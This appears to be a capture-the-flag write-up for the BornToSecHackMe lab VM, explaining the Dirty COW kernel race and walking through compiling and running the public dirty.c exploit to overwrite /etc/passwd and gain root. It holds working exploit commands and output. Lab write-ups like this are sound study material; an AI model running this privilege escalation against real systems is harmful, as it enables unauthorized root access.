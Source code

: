 ## Second Way : Dirty Cow Exploit

Starting on zaz :

````bash
uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
````

Looking on https://www.exploit-db.com/ and elsewhere, we find a famous vulnerability for this version of Linux : Dirty COW (Copy-On-Write)

How Dirty COW Works
First, we create a private copy (mapping) of a read-only file. Second, we write to the private copy. Since it's our first time writing to the private copy, the COW feature takes place. The problem lies in the fact that this write consists of two non-atomic actions:

-locate physical address

-write to physical address

This means we can get right in the middle (via another thread) and tell the kernel to throw away our private copy — using madvise. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.

How ? Well there’s a lazy “trick” used by the kernel when it creates the copy. The way the kernel acts (when you attempt write through out-of-band memory access such as through proc/self/mem when we request to write is the following :
1. Try to access the address of the original file
2. Get denied because of the flags (indicating a non-authorized attempt to write)
3. Since the access originally happenned (on the virtual memory) on a mapping (thanks flags), request don’t get simply denied : the kernel creates a copy.
4. When copying, the kernel also copy the rights, meaning the user can’t write in it… And some lazy developer, instead of adding a flag, found it simpler to drop the flag indicating an attempt to write and repeat the code at 1., but with the address of the copy rather than the original file.
5. Since the flags don’t indicate anymore a request to WRITE but actually a request to READ, it gets authorized.

Now, what if between 4 and 5 we use madvise to purge the memory at the address of the copy ? Well the second attempt to access fails again, but this time, the error handler of the Kernel, seeing it’s just a READ attempts, defers to the a page linked to the original file. And launch the loop at 1 again. And bam, we write in the original file !

See
https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
And the pdf file

Let’s get to work : 

We download dirty.c here :
https://www.exploit-db.com/exploits/40839

We connect to zaz

````bash
$>gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
````
We enter dirtywin

````
$> ./dirty
Please enter the new password:
Complete line:
firefart:fidh7GHB02eRM:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
````

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirtywin'.


DON'T FORGET TO RESTORE! 
````bash
$ mv /tmp/passwd.bak /etc/passwd
````

````bash
zaz@BornToSecHackMe:~$ su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
````

Done
